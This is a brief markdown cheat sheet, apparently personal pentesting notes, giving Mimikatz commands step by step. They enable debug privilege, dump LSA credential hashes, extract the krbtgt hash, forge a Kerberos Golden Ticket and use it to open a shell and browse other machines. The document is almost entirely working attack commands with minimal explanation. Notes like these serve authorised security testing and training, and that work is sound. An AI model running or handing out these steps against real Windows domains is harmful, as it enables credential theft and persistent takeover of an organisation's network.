

# Mimiktaz

```
mimikaz.exe
```

Ensure privileges are set

```
privilege::debug
```

dump the hashes

```
lsadump::lsa /patch
```

Crack the hashes !\
\


### Kerberos Golden ticket

```
lsadump::lsa /inject /name:krbtgt
```

Interesting stuff:

<figure><figcaption></figcaption></figure>

Create the ticket

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

<figure><figcaption></figcaption></figure>

Use the ticket

```
misc::cmd
```

Access Other machines

```
dir \\<MACHINE>\
```

